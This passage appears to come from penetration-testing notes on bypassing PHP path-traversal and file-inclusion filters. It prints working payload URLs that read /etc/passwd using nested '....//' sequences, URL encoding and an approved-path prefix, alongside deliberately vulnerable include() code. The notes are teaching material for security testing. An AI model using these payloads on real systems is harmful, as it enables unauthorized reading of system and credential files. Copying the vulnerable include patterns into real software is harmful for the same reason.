 ### Non-Recursive Path Traversal Filters 

One common filter is to replace some strings (like `../`):
```php
$language = str_replace('../', '', $_GET['language']);
```

It is easily broken:
```
http://<ip>/index.php?language=....//....//....//....//etc/passwd
```

There are more types, for example `..././`, `....\/`, `....////`,...

### Encoding 

One basic bypass is to encode it. The string `../` in ASCII is `%2e%2e%2f`. We can encode all the string, or maybe only a part:
```
http://<ip>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Also, we can double encode it.

### Approved Paths 

Some webs uses **regular expressions** to ensure that we are in their path:
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

We will need to get the approved path, via fuzzing, checking the request or trial-error. Once we get it:
```
http://<ip>/index.php?language=./languages/../../../../etc/passwd
```

### Appended Extensions 

In some cases, the extension can be added to our input:
```php
include($_GET['language'] . ".php");
```

So our input will be `/etc/passwd.php`. With modern versions of PHP, we may not be able to bypass this and will be restricted to only reading files in that extension.

#### Path Truncation
In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems. If a longer string is passed, it will simply be truncated, and any characters after the maximum length will be ignored. First we need to start with a non-existing path. 
